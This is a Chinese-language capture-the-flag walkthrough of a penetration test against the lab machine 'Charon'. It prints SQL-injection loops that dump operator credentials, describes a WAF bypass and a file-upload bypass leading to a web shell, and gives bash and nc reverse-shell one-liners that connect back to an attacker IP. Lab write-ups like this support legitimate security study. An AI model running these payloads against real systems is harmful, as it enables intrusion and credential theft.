

# 记一次CHARON对的渗透测试 - 先知社区

记一次CHARON对的渗透测试

- - -

# 一、信息收集：

## 1.端口扫描

nmap发现开放了OpenSSH和Apache服务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155306-cdbf65c4-a3c3-1.png)

访问80端口，发现是一个cms界面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155314-d2c8b606-a3c3-1.png)

翻了一下，没有可用的地方。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155322-d73e27de-a3c3-1.png)

## 2.目录扫描

使用gobuster进行目录扫描  
gobuster dir-u [http://10.10.10.31](http://10.10.10.31/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -o scans/gobuster-root-small-php -t 40  
扫描发现存在cmsdata目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155332-dda4aea4-a3c3-1.png)

访问一下，发现是一个登录框，测试几个弱口令没成功。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155341-e3167cd2-a3c3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155348-e7344344-a3c3-1.png)

发现有一个忘记密码功能。butp抓包测试sql注入。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155416-f7fa0628-a3c3-1.png)

# 二、漏洞利用

## 3.sql注入

输入'报错，然后输入"提提升找不到这个emali。证明存在sql注入。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155425-fd23500a-a3c3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155430-004f9590-a3c4-1.png)

使用limit进行判断字段。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155436-03ba15e8-a3c4-1.png)

### 1.脚本测试

使用脚本枚举出了可用的用户名。

```plain
for i in{1..1000};do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode"email=a@b.c' or 1=1 limit ${i},1;-- -" | grep'<h2>' | awk'{print $5}' | grep-v"^with"||break;done
for i in $(seq 0 300); do
        payload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"
        curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com'
        done
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155456-0f679596-a3c4-1.png)

### 2.手工union联合查询Bypass waf

经过测试，发现在查到第4位的时候会出现报错。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155503-13cce67c-a3c4-1.png)

猜测可能存在waf拦截，然后经过测试，将UNION SELECT都使用大写进行测试，可以成功测试注入。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155510-17e09222-a3c4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155515-1b0435bc-a3c4-1.png)

使用脚本探测那一列是电子邮箱的地址。

```plain
for i in $(seq 0 300); dopayload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com' done
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155530-23c33c20-a3c4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155535-270e41ae-a3c4-1.png)

发现到了第四列的时候，出现了有关邮箱的格式。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155542-2ad0ddec-a3c4-1.png)

使用脚本枚举数据库。

```plain
for i in {0..100}; do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode "email=a@b.c' UNiON SELECT 1,schema_name,3,'a@b.c' from information_schema.schemata limit ${i},1;-- -" | grep '<h2>' | awk '{print $5}' | grep -v "^with$" || break; done | cut -d'>' -f2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155602-36e4a3a2-a3c4-1.png)  
使用GROUP\_CONCATSQL 函数，它将一整列合并为一个结果。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155552-30be3934-a3c4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155615-3ea21e58-a3c4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155621-42300ee0-a3c4-1.png)

联合查询获取用户名和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155627-4604bb42-a3c4-1.png)

查找管理员用户名和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155637-4b7c6836-a3c4-1.png)

## 4.md5解密

super\_cms\_adm:0b0689ba94f94533400f4decd87fa260,decoder:5f4dcc3b5aa765d61d8327deb8

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155641-4e66802c-a3c4-1.png)

## 5.文件上传

成功登录之后，发现存在一个上传地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155648-521162b4-a3c4-1.png)

对php格式的文件进行测试，发现不能成功上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155654-55f73232-a3c4-1.png)

测试.php.jpg格式的文件进行上传，可以上传不能解析。  
服务器通常通过三种方式过滤文件类型：  
● 文件扩展名  
● 内容类型  
● 魔术字节/MIME 类型  
我已经用 提交了这个Content-Type: image/jpeg，所以它必须不止于此。该消息表明它正在限制扩展。如果我只是上传cmd.jpg而不更改名称，它仍然会报错。  
6.文件上传bypass  
发现返回包，存在一个字段类似于base64加密的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155703-5b29dcfa-a3c4-1.png)

使用echo进行base64解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155710-5f4a9ea0-a3c4-1.png)

然后修改name格式，进行上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155726-68eba0d0-a3c4-1.png)

不能成功上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155720-654bb3de-a3c4-1.png)

然后先设置burp，接收响应包的内容。  
1.修改前端代码绕过文件上传  
将name修改为testfile1

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155734-6d7e6b5a-a3c4-1.png)

然后输入cmd.php，重新上传.php.jpg格式的文件。成功上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155740-717c1482-a3c4-1.png)

### 2.命令执行

在上传之后可以利用cmd去执行一些命令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155749-768f4930-a3c4-1.png)

# 三、权限提升

## 7.使用bash反弹shell

```plain
bash -c 'bash -i >%26 /dev/tcp/10.10.16.2/443 0>%261
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 443 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155756-7b19fc20-a3c4-1.png)

nc进行监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155808-8230e794-a3c4-1.png)

成功反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155817-875e4266-a3c4-1.png)

翻文件，发现在home/decoder目录下存在2个密钥。  
8.使用nc下载文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155825-8c663962-a3c4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155831-8fee1488-a3c4-1.png)

## 9.密钥解密

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155838-942c193c-a3c4-1.png)

使用RsaCtfTool进行暴力破解  
安装步骤：  
（sudo apt install libmpc-dev libgmp3-dev sagemath和pip3 install -r requirements.txt）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155850-9afeff22-a3c4-1.png)

成功解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155858-9f9becac-a3c4-1.png)

## 10.ssh远程登录

获取第一个flag（user.txt）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155906-a4a824e0-a3c4-1.png)

## 11、使用find命令，查找可利用的suid文件

find / -perm-4000-ls 2>/dev/null

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155914-a918b0c6-a3c4-1.png)

发现supershell可以利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155921-ad4c8b22-a3c4-1.png)

利用supershell成功读到了root.txt，成功获得了第二个flag。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231226155928-b166f7e2-a3c4-1.png)
